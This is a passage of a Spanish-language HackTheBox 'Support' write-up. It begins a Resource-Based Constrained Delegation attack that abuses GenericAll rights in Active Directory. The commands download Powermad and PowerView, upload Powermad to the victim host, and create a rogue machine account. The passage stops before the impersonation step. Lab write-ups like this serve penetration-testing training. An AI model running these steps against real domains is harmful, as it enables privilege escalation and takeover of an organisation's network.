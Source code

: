 <p style="text-align: center;">
<img src="/assets/images/support/06-blood.png">
</p>

## RESORCE BASED CONSTRAINED DELEGATION (RBCD) ATTACK

Vamos a realizar un `RBCD ATTACK`, esto es posible porque el grupo `SHARED SUPPORT ACCOUNTS` tiene permisos `Generic all` sobre el `AD`, dando la libertad de ejecutar en este caso la posibilidad de crear una nueva cuenta de máquina, que puedes hacer uso del mismo para obtener un ticket impersonando el usuario obteniendo accesos privilegiados con ayuda de `powermad` y `powerview`

### MÁQUINA ATACANTE

##### DESCARGAR POWERMAD.PS1 Y POWERVIEW.PS1
```bash
wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
```

### MÁQUINA VÍCTIMA

##### TRANSFERIR POWERMAD
```bash
upload /home/bast1ant1c/Desktop/bast1ant1c/HTB/AD/easy/support/recon/Powermad.ps1
```
##### IMPORTAR MODULO
```bash
Import-Module .\Powermad.ps1
```
##### CREAR CUENTA DE MÁQUINA
```bash
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString 'password123' -AsPlainText -Force) -Verbose
```
